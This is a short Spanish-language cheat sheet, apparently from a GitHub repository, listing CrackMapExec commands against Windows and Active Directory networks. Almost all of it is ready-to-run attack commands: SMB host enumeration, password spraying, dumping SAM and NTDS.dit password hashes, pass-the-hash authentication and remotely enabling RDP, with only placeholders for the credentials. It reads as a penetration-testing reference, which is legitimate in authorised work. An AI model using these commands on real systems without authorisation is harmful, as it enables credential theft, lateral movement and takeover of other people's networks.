 # CrackMapExec Cheat Sheet

#### Listar equipos dentro de la red de un AD
```
crackmapexec smb 192.168.1.0/24
```

#### Password Spraying
```
crackmapexec smb 192.168.1.0/24 -u '<username>' -p listpassword.txt
```

#### Conocer en que equipos se puede autenticar especificando un usuario y password
```
crackmapexec smb 192.168.1.0/24 -u '<username>' -p '<password>'
```

#### Dumping Hashes SAM
```
crackmapexec smb 192.168.1.23 -u '<username>' -p '<password>' --sam
```

#### Dumping Hashes NTLM
```
crackmapexec smb 192.168.1.22 -u '<username>' -p '<password>' --ntds
```

#### PassTheHash
```
crackmapexec smb 192.168.1.23 -u '<username>' -H '<hash>' --local-auth
```

#### Habilitar RDP con usuario y password de Administrador
```
crackmapexec smb 192.168.1.22 -u '<username>' -p '<password>' -M rdp -o action=enable
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)